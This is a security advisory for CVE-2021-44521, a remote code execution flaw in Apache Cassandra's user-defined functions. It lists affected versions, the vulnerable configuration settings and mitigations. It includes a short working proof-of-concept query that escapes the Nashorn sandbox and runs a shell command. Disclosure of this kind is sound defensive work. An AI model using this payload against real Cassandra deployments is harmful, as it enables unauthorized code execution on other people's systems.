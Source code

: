 ```yaml
---
description: CVE-2021-44521 High severity. Insufficient sandboxing of user-defined functions in Apache Cassandra leads to remote code execution
title: Cassandra UDF RCE
date_published: "2022-02-15"
last_updated: "2022-02-15"
xray_id: XRAY-197962
vul_id: CVE-2021-44521
cvss: 8.4
severity: high
discovered_by: Omer Kaspi
type: vulnerability
---
```

## Summary
Insufficient sandboxing of user-defined functions in Apache Cassandra leads to remote code execution

## Component

[Apache Cassandra](https://cassandra.apache.org/_/index.html)

## Affected versions

[3.0.0-alpha1, 3.0.25], fixed in 3.0.26

[3.1, 3.11.11], fixed in 3.11.12

[4.0-alpha1, 4.0.1], fixed in 4.0.2

## Description

CVE-2021-44521 is an RCE (remote code execution) issue in Apache Cassandra. This Apache vulnerability is easy to exploit and has the potential to wreak havoc on systems, but luckily only manifests in non-default configurations of Cassandra.  

Cassandra deployments are vulnerable to CVE-2021-44521 when the cassandra.yaml configuration file contains the following definitions:

```
enable_user_defined_functions: true
enable_scripted_user_defined_functions: true
enable_user_defined_functions_threads: false
```
A malicious authenticated user can run a trivial (publicly available) SQL query that causes remote code execution, by running JavaScript code in the query that abuses the JavaScript engine (Nashorn) and escapes the security sandbox

## PoC

```
create or replace function x.escape_system(name text) RETURNS NULL ON NULL INPUT RETURNS text LANGUAGE javascript AS $$
var System = Java.type("java.lang.System");System.setSecurityManager(null);this.engine.factory.scriptEngine.eval('java.lang.Runtime.getRuntime().exec("touch hacked")');name $$;
```



## Vulnerability Mitigations

1. If UDFs are not actively used, they can be completely disabled by setting `enable_user_defined_functions` to `false` (which is the default value)
2. If UDFs are needed, set `enable_user_defined_functions_threads` to `true` (which is the default value)
3. Remove the permissions of creating, altering and executing functions for untrusted users by removing the following permissions: `ALL FUNCTIONS`, `ALL FUNCTIONS IN KEYSPACE` and `FUNCTION` for `CREATE`, `ALTER` and `EXECUTE` queries ([see blog post for example query](https://jfrog.com/blog/cve-2021-44521-exploiting-apache-cassandra-user-defined-functions-for-remote-code-execution/))

## References

[JFrog Blogpost](https://jfrog.com/blog/cve-2021-44521-exploiting-apache-cassandra-user-defined-functions-for-remote-code-execution/)
